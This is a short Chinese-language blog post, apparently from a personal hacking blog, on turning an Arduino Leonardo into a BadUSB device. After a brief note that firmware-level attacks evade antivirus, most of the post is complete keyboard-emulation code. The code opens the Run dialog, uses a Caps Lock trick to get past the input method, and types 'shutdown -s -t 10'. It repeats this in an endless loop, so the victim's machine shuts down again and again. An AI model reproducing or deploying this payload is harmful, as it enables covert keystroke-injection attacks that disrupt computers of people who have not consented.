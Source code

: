 ```yaml
---
title: Arduino Leonardo 打造 Bad USB
date: 2016-11-27 02:48:23
tags: hack 
categories: hack
---
```


嘿嘿嘿，又是一篇猥琐小文。

<!--more -->

# 简介

BadUSB最可怕的一点是恶意代码存在于U盘的固件中，由于PC上的杀毒软件无法访问到U盘存放固件的区域，因此也就意味着杀毒软件和U盘格式化都无法应对BadUSB进行攻击。

# 目标
Bad USB

# 效果
![](/content/images/badusb/preview.gif)

# 原料
1. Arduino Leonardo
2. 普通安卓USB线

# 🌰

```C
#include <Keyboard.h>

void setup() {//初始化
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
void loop()//循环
{
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
```


# 参考
http://www.freebuf.com/sectool/107242.html
